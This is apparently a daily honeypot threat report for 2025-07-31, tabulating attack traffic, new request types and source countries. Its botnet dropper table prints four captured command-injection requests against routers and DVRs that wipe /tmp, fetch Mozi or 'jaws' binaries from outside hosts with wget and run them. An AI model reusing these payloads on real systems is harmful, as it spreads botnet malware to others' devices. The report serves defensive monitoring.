 ```yaml
---
title: "Report: 2025-07-31 "
date: 2025-07-31
desciption: "Report: 2025-07-31" 
tags: [repport, daily]
---
```



# Daily Report: 2025-07-31 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 4 stage 1 IP address(es), linked to 3 dropper URL(s).  

There are 8 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 472 requests were recorded during the day, originating from 4 different countries, with a peak of 104 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| SG               | Germany            |
| US               | Germany            |
| US               | Dubai              |
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                       |
|:---------------|:------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 123.190.30.164 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://123.190.30.164:39424/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |
| 27.47.0.217    | GET /shell?cd+/tmp;rm+-rf+*;wget+http://192.168.1.1:8088/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                    |
| 8.219.74.21    | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                          |
| 8.219.103.247  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                          |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                            |
|----:|----------------------:|:-----------------------------------|
|  24 |                     2 | CONNECT 196.251.81.204:80 HTTP/1.0 |
|  25 |                     2 | \x04\x01\x00P\xC4\xFBQ\xCC\x00     |
|  90 |                     1 | GET /.cache HTTP/1.1               |
| 110 |                     1 | \x04\x01\x00P\xC4\xFBE\xCD\x00     |
| 111 |                     1 | CONNECT 196.251.69.205:80 HTTP/1.0 |
| 116 |                     1 | \x04\x01\x00P-J\x10Z\x00           |
| 119 |                     1 | CONNECT 45.74.16.90:80 HTTP/1.0    |
| 124 |                     1 | GET /oauth/authorize HTTP/1.1      |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   104 | US                 |
|  1 |                    87 | GB                 |
|  2 |                    55 | DE                 |
|  3 |                    54 | CN                 |
|  4 |                    25 | NL                 |
|  5 |                    23 | SC                 |
|  6 |                    20 | RU                 |
|  7 |                    17 | BG                 |
|  8 |                    16 | PL                 |
|  9 |                    12 | CA                 |
| 10 |                     9 | FR                 |
| 11 |                     9 | CH                 |
| 12 |                     7 | RO                 |
| 13 |                     7 | SG                 |
| 14 |                     4 | LT                 |
| 15 |                     4 | BE                 |
| 16 |                     3 | ZA                 |
| 17 |                     3 | IN                 |
| 18 |                     2 | KZ                 |
| 19 |                     2 | HK                 |
| 20 |                     2 | GH                 |
| 21 |                     1 | ES                 |
| 22 |                     1 | PA                 |
| 23 |                     1 | BR                 |
| 24 |                     1 | PE                 |
| 25 |                     1 | TR                 |
| 26 |                     1 | JP                 |
| 27 |                     1 | CZ                 |
